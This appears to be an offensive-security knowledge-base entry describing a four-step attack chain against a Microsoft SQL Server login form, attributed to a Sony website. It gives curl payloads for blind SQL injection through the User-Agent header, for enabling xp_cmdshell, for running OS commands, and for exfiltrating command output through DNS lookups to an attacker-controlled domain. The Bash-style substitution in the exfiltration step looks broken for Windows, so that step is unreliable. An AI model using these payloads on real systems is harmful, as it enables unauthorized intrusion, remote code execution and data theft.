

---
tags:
  - sqli
  - blind-sqli
  - xp_cmdshell
  - rce
  - dns-exfil
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
  - '[[Exfiltration]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-Blind-SQL-Injection-in-User-Agent-Header]]'
  - '[[procedures/Enable-xp_cmdshell-via-Blind-SQL-Injection]]'
  - '[[procedures/Execute-Remote-OS-Commands-using-xp_cmdshell]]'
  - '[[procedures/Exfiltrate-Command-Output-via-DNS-Requests]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Windows Command Shell]]'
  - '[[Exfiltration Over Unencrypted Non-C2 Protocol]]'
updated_at: '2025-12-14T03:46:20.469Z'
description: >-
  A multi-stage attack exploiting blind SQL injection in a web login form's
  User-Agent header to enable xp_cmdshell, execute OS commands, and exfiltrate
  output via DNS on a Microsoft SQL Server backend.
skill_level: intermediate
impact_level: high
id: c7aae3ac-8adc-4363-b4ef-fe28453e6cc8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
  - '[[Exfiltration]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Windows Command Shell]]'
  - '[[Exfiltration Over Unencrypted Non-C2 Protocol]]'
---
# Blind SQL Injection in User-Agent Header Leading to xp_cmdshell RCE and DNS Exfiltration

Multi-stage attack chain demonstrating a complete attack workflow from blind SQL injection discovery to remote code execution and data exfiltration on a Sony website's login form backed by Microsoft SQL Server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/inject-sqli-user-agent]]
- [[commands/enable-xp_cmdshell-payload]]
- [[commands/execute-xp_cmdshell-command]]
- [[commands/exfil-via-dns]]

### Target Environment

- Web application with Microsoft SQL Server backend
- Windows server OS
- Exposed login endpoint (e.g., POST /login)
- No WAF blocking SQL payloads in headers

### Initial Access Requirements

- Network access to the target website
- Ability to send custom HTTP headers (e.g., via curl or browser dev tools)
- No authentication required for initial injection testing

## Detailed Attack Procedures

### Step 1: Discover Blind SQL Injection
procedure: [[procedures/Discover-Blind-SQL-Injection-in-User-Agent-Header]]

**Objective**: Identify and confirm blind SQL injection vulnerability in the User-Agent HTTP header of the login form endpoint.

**Instructions**: Use [[commands/inject-sqli-user-agent]] to test for time-based delays indicating SQL execution:

```bash
curl -X POST https://target.example.com/login -H "User-Agent: ' OR IF(1=1, WAITFOR DELAY '0:0:5', 0)--" -d "username=test&password=test"
```

Observe a 5-second delay in response time, confirming blind SQLi. Repeat with conditional payloads to extract data bits.

**Expected Output**: Delayed HTTP response (e.g., 5+ seconds) without error messages, indicating successful injection.

**Success Indicators**:
- Consistent time delays on true conditions vs. no delay on false
- No direct error output, confirming blind nature

### Step 2: Escalate to Enable xp_cmdshell
procedure: [[procedures/Enable-xp_cmdshell-via-Blind-SQL-Injection]]

**Objective**: Use blind SQLi to execute privilege escalation commands enabling the xp_cmdshell extended stored procedure.

**Instructions**: Chain multiple SQL statements via blind techniques using [[commands/enable-xp_cmdshell-payload]] to reconfigure the server:

```bash
curl -X POST https://target.example.com/login -H "User-Agent: '; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--" -d "username=test&password=test"
```

Verify enablement by attempting a test command in subsequent injections.

**Expected Output**: No immediate output, but successful enabling confirmed by later xp_cmdshell execution without errors.

**Success Indicators**:
- Subsequent xp_cmdshell calls execute without configuration errors
- Time-based confirmation of reconfiguration success

### Step 3: Execute OS Commands
procedure: [[procedures/Execute-Remote-OS-Commands-using-xp_cmdshell]]

**Objective**: Leverage enabled xp_cmdshell to run arbitrary OS commands on the Windows server.

**Instructions**: Inject SQL to invoke xp_cmdshell with desired commands using [[commands/execute-xp_cmdshell-command]]:

```bash
curl -X POST https://target.example.com/login -H "User-Agent: '; EXEC xp_cmdshell 'whoami';--" -d "username=test&password=test"
```

Replace 'whoami' with target commands like 'net user' for enumeration.

**Expected Output**: No direct response, but command execution confirmed via exfiltration in next step.

**Success Indicators**:
- Commands run on server (verified by side effects or exfil)
- No SQL errors from xp_cmdshell invocation

### Step 4: Exfiltrate Output
procedure: [[procedures/Exfiltrate-Command-Output-via-DNS-Requests]]

**Objective**: Retrieve command output blindly using DNS queries triggered by xp_cmdshell.

**Instructions**: Use [[commands/exfil-via-dns]] to encode output in DNS subdomains:

```bash
curl -X POST https://target.example.com/login -H "User-Agent: '; EXEC xp_cmdshell 'nslookup $(whoami).attacker-dns.com';--" -d "username=test&password=test"
```

Monitor attacker DNS server for queries containing output (e.g., 'nt authority\system.attacker-dns.com').

**Expected Output**: DNS query logs on attacker's server showing exfiltrated data.

**Success Indicators**:
- DNS requests received with command output encoded
- Full server compromise potential realized

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQLi in User-Agent header for arbitrary query execution
2. Escalated to enable xp_cmdshell for RCE on Windows server
3. Achieved remote OS command execution without direct output
4. Exfiltrated sensitive data via stealthy DNS tunneling

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Exploitation for Privilege Escalation]]
- [[Windows Command Shell]]
- [[Exfiltration Over Unencrypted Non-C2 Protocol]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]
- [[Exfiltration]]

---
*Last updated: 2023-10-01T00:00:00Z*
